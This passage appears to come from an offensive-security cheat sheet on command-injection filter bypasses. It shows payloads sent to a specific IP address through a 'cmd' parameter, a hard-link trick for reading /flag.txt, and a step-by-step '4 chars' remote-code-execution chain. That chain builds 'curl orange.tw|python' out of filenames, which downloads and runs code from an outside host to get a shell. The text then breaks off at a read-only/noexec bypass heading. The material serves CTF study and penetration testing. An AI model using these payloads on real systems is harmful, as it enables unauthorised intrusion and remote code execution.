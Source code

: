 ```bash
http://52.199.204.34/?cmd=>zzz
http://52.199.204.34/?cmd=*%20/h*

# Another curiosity if you can read files of the current folder
ln /f*
## If there is a file /flag.txt that will create a hard link 
## to it in the current folder
```

### RCE with 4 chars

```bash
# In a similar fashion to the previous bypass this one just need 4 chars to execute commands
# it will follow the same principle of creating the command `ls -t>g` in a file
# and then generate the full command in filenames
# generate "g> ht- sl" to file "v"
'>dir'
'>sl'
'>g\>'
'>ht-'
'*>v'

# reverse file "v" to file "x", content "ls -th >g"
'>rev'
'*v>x'

# generate "curl orange.tw|python;"
'>\;\\'
'>on\\'
'>th\\'
'>py\\'
'>\|\\'
'>tw\\'
'>e.\\'
'>ng\\'
'>ra\\'
'>o\\'
'>\ \\'
'>rl\\'
'>cu\\'

# got shell
'sh x'
'sh g'
```

## Read-Only/Noexec/Distroless Bypass

If you are inside a filesystem with the **read-only and noexec protections** or even in a distroless container, there are still ways to **execute arbitrary binaries, even a shell!:**
